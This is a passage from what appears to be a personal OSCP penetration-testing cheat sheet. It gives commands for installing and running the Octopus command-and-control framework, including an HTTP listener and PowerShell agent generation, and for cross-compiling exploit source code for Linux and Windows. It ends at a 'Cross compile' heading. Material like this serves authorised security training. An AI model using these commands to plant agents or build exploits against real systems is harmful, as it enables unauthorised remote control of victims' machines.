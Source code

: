 If a script is found try [SHELLSHOCK](about:reader?url=https%3A%2F%2Fliodeus.github.io%2F2020%2F09%2F18%2FOSCP-personal-cheatsheet.html%23enumeration#shellshock).

---

## Command and control framework

```
# Download
git clone https://github.com/mhaskar/Octopus/tree/v1.2

# Install requirements
pip install -r requirements.txt

# Usage
./octopus.py

# Listener (exemple)
listen_http <BIND_IP> <BIND_PORT> <HOSTNAME> <INTERVAL_IN_SECONDS> <URL> <LISTENER_NAME>
listen_http 0.0.0.0 80 192.168.1.87 5 test.php listener_1

# Agent (exemple)
generate_powershell <LISTENER_NAME>
generate_powershell listener_1
```

---

## Compiling exploits

### For linux

```
# 64 bits
gcc -o exploit exploit.c

# 32 bits
gcc -m32 -o exploit exploit.c
```

### For windows

```
To compile Win32 bit executables, execute i686-w64-mingw32-gcc -o <FILE.exe> <FILE.c>
To compile Win64 bit executables, execute x86_64-w64-mingw32-gcc -o <FILE.exe><FILE.c>
To Compiled .cpp source file, execute i586-mingw32msvc-g++ -o <FILE>.exe <FILE>.cpp
To compile python scripts, pyinstaller --onefile <SCRIPT.py>

# Compile windows .exe on Linux
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
```

### Cross compile
